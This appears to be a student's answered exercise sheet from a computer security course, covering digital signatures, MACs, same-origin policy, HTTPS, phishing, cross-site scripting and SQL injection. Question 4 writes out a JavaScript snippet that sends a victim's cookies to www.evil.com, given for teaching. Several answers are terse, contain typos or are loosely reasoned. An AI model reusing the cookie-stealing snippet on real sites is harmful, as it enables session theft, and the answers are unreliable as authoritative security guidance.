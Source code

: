 # Exercises sheet 3

**There will be no written corrections. Exercises will be discussed during the recorded live Q&A. Come and prepare questions.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?
	**ANS:** Barack can sign jokes with his private key.

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k||x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that x was not modified by Bill? Justify your answer.
	**ANS:** Yes. As `k` is shared only between Hillary and Barack, no one can produce a valid d without knowing `k`. Also crypto hash are irreversible, Bill can not learn the secret `k` from d. See massege authentication code MAC slides.
	 
3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k||z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer.
	**ANS:** This approach does not work as every member of cabinet has the secret `k` and thus is capable of creating the hash, i..e Tim can also claim that z is created by him.
	 
4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful?
	**ANS:** No. Becuase of SOP, evil.com will not be able to access the cookies related to buy-all.bz.
	
5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.
	**ANS:** b
	
6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not?
	**ANS:** Phishing can involved tricks that range from ebing very simple, like asking your credit cards details to sophisticated ones, like redirecting you to a spoofed site. HTTPS can prevent when it comes to site identity with the help of digital certificates. In other simpler cases, it may not be useful.
	 
7. Explain why, in general, a web server should not be allowed access to cookies set by another web server.
	**ANS:** see slides on same origin policy. 
8. Summarize the difference between persistent and non-persistent cross-site scripting attacks.
	**ANS:** se slides. Among other differences, one important one is that in the case of non-persistent (reflective), the attacker has to find each individual victim and send her/him the malicious link, whereas in the case of persistant, all an attacker has to do is to just poison the server.
9. Explain why input validation mitigates the risks of SQL injection attacks.
	**ANS:** to clean the input that may contain some specal characters, like single quote.